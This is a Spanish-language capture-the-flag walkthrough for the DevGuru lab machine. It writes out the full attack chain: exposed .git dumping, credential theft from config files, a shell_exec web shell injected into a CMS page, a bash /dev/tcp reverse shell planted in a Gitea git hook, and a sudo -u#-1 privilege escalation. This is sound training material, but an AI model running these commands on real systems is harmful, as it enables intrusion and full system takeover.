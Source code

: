## Summary

- IP -> Random 192.168.68.112
- Ports -> TCP (22,80,8585), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.6p1
    - 80 -> Apache httpd 2.4.29 -> Tenemos un Website.git
    - 8585 -> Gitea, paquete de Software para usar git

## Recon

❯ **nmap 192.168.68.0/24**
❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.68.112  -oG allPorts**
❯ **nmap -sCV -p22,80,8585 192.168.68.112 -oN targeted**

Vamos a agregar un dominio en el **/etc/hosts** -> 192.168.68.112 devguru.local

❯ **./gitdumper.sh ❮http://IP/.git/❯ Website/**
* gitdumper -> Ejecutar el comando
* IP -> Dominio a escanear 
* .git -> Queremos que todo lo que encuentre de git lo extraiga 
* Website -> Que todo lo que encuentre lo guarde en ese archivo llamado Website 

❯ **./extractor.sh ../Dumper/Website ./website**
* extractor -> Ejecutar el comando
* Dumper/Website -> Path de el comando anterior y el nombre del archivo que le habiamos puesto
* website -> Que lo que extraiga nos lo guarde en el archivo llamado website

Ahora nos dirijimos al website que esta dentro del extractor y nos muestra un directorio al cual accedemos y obtenemos lo siguiente 
* **adminer.php** -> Que esta corriendo un servicio php
* **config** -> Nos muestra un directorio llamado config

Miramos en la web ese directorio 
* http://devguru.local/adminer.php -> Encontramos una pagina de Login que nos pide ciertas cosas 
* **Ctrl + u** -> Para mirar el codigo de la pagina web 

Podemos inspeccionar el dir Config para ver si encontramos algo que nos pueda ayudar 
- Encontramos dentro de config un archivo que se llama **database.php** y ahi podemos observar que hay diferentes bases de datos con users y passwd, pero la que nos interesa es la de **mysql** ya que en la pagina web, ahi nos muestra que es ese tipo de base de datos 

Pudimos entrar en la pagina web en la parte de adminer con los datos que encontramos en la database anterior
Encontramos en la session de backend_users el usuario Frank y su passwd, pero esta passwd esta encriptada 

Por lo que hacemos lo siguiente 
\$2y\$  Esas 4 primeras letras de la passwd encryptada las podemos buscar en Google y asi saber que tipo de encriptacion es

❯  https://www.devglan.com/online-tools/aes-encryption-decryption Nos ayudara a encryptar con diferentes hashes
* Nos vamos a la session de **Online Bcrypt Hashing** y generamos este tipo de hash \$2y\$

Y con la nueva passwd le damos en editar y cambiar por la que hemos generado 

Una vez cambiada la passwd, para poder ingresar debemos de ir a la siguiente url
❯ http://devguru.local/backend
Y ahi nos abrira una nueva pagina en donde podremos colocar el usuario de Frank y la nueva passwd

Dentro de la pagina web podemos ir explorando y nos damos cuenta que hay **CMS** el cual es un administrador que tenemos en la pagina en el cual podemos ver que pagina podemos vulberar y obtener informacion sobre esa y encontramos la pagina de **Home** en la cual tenemos una terminal que dice **Code** y hi podriamos colocar comandos

Con este codigo le decimos a la pagina que queremos que cuando se ejecute comandos cmd los guarde en la variable, esto si estamos en un Framework
* **Code**
function onStart() {
	$this->page["myVar"] = shell_exec(\$\_GET['cmd']);
}

Y para hacerlo funcionar debemos de hacer lo siguiente en:
* **Markup**
{{this.page.myVar}}
Que eso es lo que va a recibir del condigo anterior
Ahora le damos en **Save** y despues en **Preview** y nos dara un error, pero ahi ya estar enyectado el comando y ahora en la url podremos ejecutar comandos

http://devguru/local/?cmd=ls -la -> Con esto nosotros podremos colocar comandos en la URL y asi podriamos hacer una revershell

Por lo que lo podemos hacer de dos formas, la primera es subiendo un archivo .php y que nos lo ejecute la url y la segunda manera es que coloquemos el comando en la url y lo podriamos encodear 




## User
Ingresamos como el usuario **www-data** por lo que tendriamos que ver la manera para cambiar de usuario

Tratamiento de la consola Linux cuando entras a una maquina victima
 ❯ **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para tener una mejor bash
 ❯ **Ctrl + z**
 ❯ **stty raw -echo; fg**
 ❯ **reset xterm**

Una vez teniendo la nueva consola interactiva, podemos ver lo que hay en el dir. Miramos que existe un dir llamado 'backups' en el cual nos podemos meter y encontraremos un archivo **app.init.bak** y su usuario es frank.
Por lo que podriamos usar ese archivo para ver si existe alguna passwd que nos pueda ayudar a cambiar de usuario 

❯ **cat app.init.bak** Miramos el contenido del archivo .bak 

Encontramos algunos datos que nos pueden ayudar como son los sig:
* url: devguru.local:8585
* user: gitea
* passwd: UfFPTF8C8jjxVF2m
Esto nos ayudaria a entrar a la base da datos de mysql y en la url de /adminer.php
Ahora buscando en la base de datos logramos encontrar al usuario Frank y su passwd pero su passwd esta encriptada, por lo que haremos lo mismo de antes y le cambiaremos la passwd colocando el mismo hash 

❯  https://www.devglan.com/online-tools/aes-encryption-decryption Nos ayudara a encryptar con diferentes hashes
* Nos vamos a la session de **Online Bcrypt Hashing** y generamos este tipo de hash \$2y\$ 

Por lo que al momento de cambiar la passwd, tambien debemos de cambiar el tipo de hash en la base de datos al sig:
* bcrypt
Una vez guardado los campos 

Nos dirijimos al sig url **devguru.local:8585** e ingresaremos con el usuario Frank y la nueva passwd, esto para vulnerar Gitea
Una vez dentro de la pagina web de Gitea, nos ponemos a buscar algo que nos pueda ayudar a hacer una ReverShell y eso lo encontraremos en la parte de 
* **Settings > Git hooks > pre-receive > edit**  

Editamos el archivo, borrando su contenido y ahi colocar una ReverShell, antes de darle Update, nos colocamos en escucha con Netcat
❯ **/bin/bash -i >& /dev/tcp/192.168.68.100/443 0>&1** 
* 192.168.68.100 -> Colocamos nuestra IP
* 443 -> Puerto de Netcat que utilizaremos 


❯ **nc -nlvp 443** Nos ponemos en escucha para recibir la ReverShell

Ahora para poder hacer que haga efecto en Gitea, debemos de actualizar un archivo, por lo que actualizaremos el README.txt para no ser detectados y esto lo haremos dandole en **edit**, le agregamos una linea y le damos en **Commit changes**


Despues de eso ya podriamos entrar con el usuario Frank y tendriamos una consola, por lo que vamos a su dir y buscamos la flag del user.txt


## Root
❯ **sudo -l** Para ver si tenemos privilegios en el Sudoers (l=ele) y tenemos el **/usr/bin/sqlite3**

Buscamos en Google en la pagina de **exploit-db.com** en la cual buscaremos **sudo** y buscariamos el exploit de **sudo 1.8.27 Security Bypass** en donde solo ocuparemos este comando del codigo para poderlos usar al momeno de ejecutar sqlite3

❯ **sudo -u#-1 /bin/bash** Tendremos que modificar este comando y usuarlo con sqlite3 de la siguiente manera

❯ **sudo -u#-1 sqlite3 /dev/null '.shell/bin/bash'** Asi tendriamos que ejecutar el comando para que nos de el usuario Root

Y ahora podemos acceder al dir Root y ver la flag root.txt


